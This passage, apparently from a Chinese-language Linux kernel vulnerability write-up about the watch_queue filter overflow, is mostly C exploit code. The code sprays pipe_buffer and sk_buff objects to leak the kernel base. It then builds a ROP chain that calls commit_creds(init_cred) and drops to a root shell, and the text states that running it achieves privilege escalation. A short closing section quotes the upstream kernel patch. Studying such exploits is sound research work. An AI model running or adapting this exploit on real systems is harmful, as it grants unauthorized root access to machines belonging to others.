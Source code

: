 ```
 spray pipe_buffer...");    for (int i = 0; i < PIPE_NUM; i++)    {        if (pipe(pipe_fd[i]) < 0)            errExit("failed to create pipe!");        // write something to activate it        if (write(pipe_fd[i][1], "arttnba3", 8) < 0)            errExit("failed to write the pipe!");    }    // release the sk_buff to read pipe_buffer, leak kernel base    puts("
 release sk_buff to read pipe_buffer...");    pipe_buf_ptr = (struct pipe_buffer *) &fake_secondary_msg;    for (int i = 0; i < SOCKET_NUM; i++)    {        for (int j = 0; j < SK_BUFF_NUM; j++)        {            if (read(sk_sockets[i][1], &fake_secondary_msg,                     sizeof(fake_secondary_msg)) < 0)                errExit("failed to release sk_buff!");            if (pipe_buf_ptr->ops > 0xffffffff81000000)            {                printf("\033[32m\033[1m[+] got anon_pipe_buf_ops: \033[0m%llx\n",                         pipe_buf_ptr->ops);                kernel_offset = pipe_buf_ptr->ops - ANON_PIPE_BUF_OPS;                kernel_base = 0xffffffff81000000 + kernel_offset;            }        }    }    printf("\033[32m\033[1m[+] kernel base: \033[0m%llx \033[32m\033[1moffset: \033[0m%llx\n",             kernel_base, kernel_offset);    /*     * Step.V     * hijack the ops of pipe_buffer     * free all pipe to trigger fake ptr     * so that we hijack the RIP     * construct a ROP on pipe_buffer     */    puts("\n\033[34m\033[1m
 Step.V hijack the ops of pipe_buffer, gain root privilege\033[0m");    puts("
 pre-construct data in userspace...");    pipe_buf_ptr = (struct pipe_buffer *) fake_secondary_msg;    pipe_buf_ptr->ops = victim_addr;    ops_ptr = (struct pipe_buf_operations *) fake_secondary_msg;    ops_ptr->release = 0xffffffff8183b4d3 + kernel_offset;// push rsi ; pop rsp ; add [rbp-0x3d],bl ; ret    ops_ptr->confirm = 0xffffffff81689ea4 + kernel_offset;// pop rdx ; pop r13 ; pop rbp ; ret    rop_idx = 0;    rop_chain = (uint64_t*) &fake_secondary_msg[0x20];    rop_chain[rop_idx++] = kernel_offset + POP_RDI_RET;    rop_chain[rop_idx++] = kernel_offset + INIT_CRED;    rop_chain[rop_idx++] = kernel_offset + COMMIT_CREDS;    rop_chain[rop_idx++] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 22;    rop_chain[rop_idx++] = *(uint64_t*) "arttnba3";    rop_chain[rop_idx++] = *(uint64_t*) "arttnba3";    rop_chain[rop_idx++] = getRootShell;    rop_chain[rop_idx++] = user_cs;    rop_chain[rop_idx++] = user_rflags;    rop_chain[rop_idx++] = user_sp;    rop_chain[rop_idx++] = user_ss;    puts("
 spray sk_buff to hijack pipe_buffer...");    if (spraySkBuff(sk_sockets, fake_secondary_msg,             sizeof(fake_secondary_msg)) < 0)        errExit("failed to spray sk_buff!");    puts("
 trigger fake ops->release to hijack RIP...");    for (int i = 0; i < PIPE_NUM; i++)    {        close(pipe_fd[i][0]);        close(pipe_fd[i][1]);    }}

```

运行即可完成提权

![](https://s2.loli.net/2022/04/06/Fk975jsZhPfvyCJ.png)

0x03. 漏洞修复
==========

该漏洞在内核主线的 [这个 commit](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=93ce93587d36493f2f86921fa79921b3cba63fbb) 中被修复，这个 commit 增加的修改比较多，我们主要关注对于该漏洞其改变的部分：

```
@@ -320,7 +319,7 @@ long watch_queue_set_filter(struct pipe_inode_info *pipe,
            tf[i].info_mask & WATCH_INFO_LENGTH)
            goto err_filter;
        /* Ignore any unknown types */
-       if (tf[i].type >= sizeof(wfilter->type_filter) * 8)
+       if (tf[i].type >= WATCH_TYPE__NR)
            continue;
        nr_filter++;
    }
@@ -336,7 +335,7 @@ long watch_queue_set_filter(struct pipe_inode_info *pipe,

    q = wfilter->filters;
    for (i = 0; i < filter.nr_filters; i++) {
-       if (tf[i].type >= sizeof(wfilter->type_filter) * BITS_PER_LONG)
+       if (tf[i].type >= WATCH_TYPE__NR)
            continue;

        q->type          = tf[i].type;

```